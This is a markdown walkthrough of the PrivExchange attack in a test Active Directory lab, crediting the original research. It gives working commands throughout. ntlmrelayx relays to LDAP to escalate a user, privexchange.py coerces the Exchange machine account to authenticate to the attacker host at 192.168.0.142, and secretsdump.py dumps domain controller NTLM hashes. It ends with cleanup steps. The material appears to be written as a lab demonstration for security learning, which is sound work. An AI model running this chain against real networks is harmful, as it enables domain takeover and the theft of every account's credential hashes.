





This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange.
[Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

# Overview

The “PrivExchange” tool simply logs in on Exchange Web Services to subscribe to push notifications. This will make the Exchange server's machine account send its NTLMv2 hash back to your box. As this account usually has severely high privileges in the domain, it can then be relayed to gain domain privilege escalation.

## Prerequisites

1. A host on the network with the ability to run your tools.
2. A valid domain user account and password (or NTLM hash).
3. A valid Exchange Server hostname or IP address. 

    `pth-net rpc group members “Exchange Servers” -I dc01.lab.local -U lab/buff`

    

4. **[PrivExchange](https://github.com/dirkjanm/PrivExchange.git)** and **[Impacket](https://github.com/SecureAuthCorp/impacket)** toolkit installed.
5. Domain Name, DC IP, Exchange Server, and your Attack host IP. 

### The different components of the attack

- `lab.local` - AD Domain Name
- `dc01.lab.local` - AD Domain Controller
- `mail01.lab.local` - AD Exchange Server
- `192.168.0.142` - Attacker host

# Exploitation Steps

Run `NTLMRelayX`  with the DC IP that we want to relay to.

    `ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff`

Use the “PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter denotes the `attacking host` and the parameter after is the Exchange server. We also have to give it out current username and password.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

Things start happening in the relaying window. We can see a request coming in from the `MAIL01$` machine account.

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    [secretsdump.py](http://secretsdump.py/) lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

### **Wireshark.**

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the /privexchange URL.

Followed by the relay to LDAP

## Cleanup

In “Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave “Replicating Directory Changes” and “Replicating Directory Changes All” privileges to and remove those Permission entries in the “Allow” checkboxes.

For example, if we use ADSI Edit to view the properties of the domain object, we can see that the domain user account we gave DCsync privileges have those privs:

## References

[https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

[https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) (python Version)

[https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) (powershell version)

[https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) (C# version)